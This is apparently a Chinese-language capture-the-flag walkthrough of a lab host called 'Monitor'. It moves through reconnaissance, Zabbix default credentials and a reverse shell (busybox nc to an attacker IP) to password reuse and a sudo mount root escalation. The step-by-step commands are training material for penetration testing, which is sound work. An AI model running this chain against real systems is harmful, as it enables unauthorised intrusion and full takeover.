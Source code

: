 # 一、信息收集

## 1. 主机发现

首先，使用 `arp-scan` 在本地网络中发现目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.141 08:00:27:b0:33:ee       PCS Systemtechnik GmbH
...
```

确认目标主机IP地址为 `192.168.205.141`。

## 2. 端口扫描

使用 `nmap` 对目标主机进行全端口扫描和服务版本探测。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.141
...
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
10050/tcp open  zabbix-agent
10051/tcp open  zabbix-trapper
...
```

扫描结果显示开放了多个端口，包括 **22 (SSH)**, **80 (HTTP)**, 以及与Zabbix监控服务相关的 **10050** 和 **10051** 端口。

# 二、Web渗透与立足点

## 1. Web服务探查

访问目标 `http://192.168.205.141`，页面显示为一个“监控系统登录”界面。尝试使用常见的弱口令 `admin:admin` 进行登录，请求成功后被重定向到 `dashboard.php`，登录后进入一个通用的仪表板页面，未发现可利用的功能点或信息泄露。

随后，使用`gobuster`进行目录爆破，发现了一个重要的路径 `/zabbix/`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.141 ...
...
/zabbix (Status: 301) [Size: 319] [--> http://192.168.205.141/zabbix/]
...
```

## 2. Zabbix RCE (远程代码执行)

针对发现的 `/zabbix` 路径，使用`nuclei`进行漏洞扫描，发现存在Zabbix默认凭证漏洞。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nuclei -u http://192.168.205.141/zabbix/
...
[zabbix-default-login] [http] [high] http://192.168.205.141/zabbix/index.php [password="zabbix",path="/index.php",username="Admin"]
...
```

扫描结果提示默认用户名为 `Admin`，密码为 `zabbix`。

使用该凭证登录Zabbix系统。Zabbix提供了创建和执行脚本的功能，我们可以利用此功能获取反弹shell。

1. **创建脚本**: 导航到 `Administration` > `Scripts`，点击 `Create script`。

2. **配置脚本**:

   *   **Name**: `shell`
   *   **Scope**:`Manual host action`
   *   **Type**:`Script`
   *   **Execute on**:`Zabbix server`
   *   **Commands**: `busybox nc 192.168.205.128 8888 -e /bin/bash`

   *ps:建议进去shell之后写一个脚本再执行一遍反弹，不然的话，他的脚本任务一结束就会断开，大约5min左右*

3. **执行脚本**: 导航到 `Monitoring` > `Hosts`，选择目标主机，然后从脚本下拉菜单中选择并执行刚刚创建的 `shell` 脚本。

![image-20250810205337566](http://7r1UMPHK.github.io/image/20250810205337820.webp)

在Kali上设置`netcat`监听，成功接收到反弹shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.141] 55914
id
uid=107(zabbix) gid=114(zabbix) groups=114(zabbix)
```

为方便后续操作，对获取的非交互式shell进行稳定化处理。

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

# 三、权限提升

## 1. 横向移动 (zabbix -> hyh)

在`zabbix`用户权限下，寻找配置文件以获取更多凭证信息。Zabbix的Web配置文件通常包含了数据库的连接信息。

```bash
zabbix@Monitor:/$ find / -name 'zabbix.conf.php' 2>/dev/null
/usr/share/zabbix/conf/zabbix.conf.php
zabbix@Monitor:/$ cat /usr/share/zabbix/conf/zabbix.conf.php
<?php
// Zabbix GUI configuration file.
$DB['TYPE']                             = 'MYSQL';
$DB['SERVER']                   = 'localhost';
$DB['DATABASE']                 = 'zabbix';
$DB['USER']                             = 'zabbix';
$DB['PASSWORD']                 = 'root123';
...
?>
```

从配置文件中，我们获得了数据库用户`zabbix`的密码`root123`。通过`ls /home`发现存在另一个用户`hyh`。尝试使用此密码切换到`hyh`用户。

```bash
zabbix@Monitor:/$ su hyh
Password: root123
hyh@Monitor:~$ id
uid=1002(hyh) gid=1002(hyh) groups=1002(hyh)
```

成功切换到`hyh`用户，并在其家目录下找到`user.txt`。

## 2. 提权至root

在`hyh`用户下，使用`sudo -l`检查其sudo权限。

```bash
hyh@Monitor:~$ sudo -l
...
User hyh may run the following commands on Monitor:
    (ALL) NOPASSWD: /usr/bin/mount
```

结果显示，`hyh`用户可以无密码以root权限执行`/usr/bin/mount`命令。查询**GTFOBins**可知，可以利用`mount`的`bind`选项来执行任意命令。

>https://gtfobins.github.io/gtfobins/mount/

我们将`/bin/bash`通过`bind`的方式挂载到`/bin/mount`上，然后通过`sudo`执行`mount`，此时执行的将是拥有root权限的bash。

```bash
hyh@Monitor:~$ sudo mount -o bind /bin/bash /bin/mount
hyh@Monitor:~$ sudo mount
root@Monitor:/home/hyh# id
uid=0(root) gid=0(root) groups=0(root)
```

成功获得root权限。

# 四、获取Flag

现在我们拥有了root权限，可以读取所有的Flag。

```bash
root@Monitor:~# cat /root/root.txt
flag{root-deb15d884e04de6f6972b3c25e3cc11b}

root@Monitor:~# cat /home/hyh/user.txt 
flag{user-ab0e0561b1a833a6141ad2273744543c}
```

所有Flag均已找到，渗透测试完成。